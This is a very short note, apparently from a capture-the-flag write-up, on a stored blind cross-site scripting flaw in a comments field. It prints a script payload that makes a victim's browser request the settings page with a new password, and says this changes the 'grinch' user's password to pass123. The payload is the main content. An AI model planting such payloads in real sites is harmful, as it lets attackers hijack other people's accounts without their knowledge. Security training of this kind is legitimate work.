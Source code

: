# stored blind xss at comments 
<script>fetch('/settings?new_password=pass123');</script>

so we change the grinch user passowrd to pass123
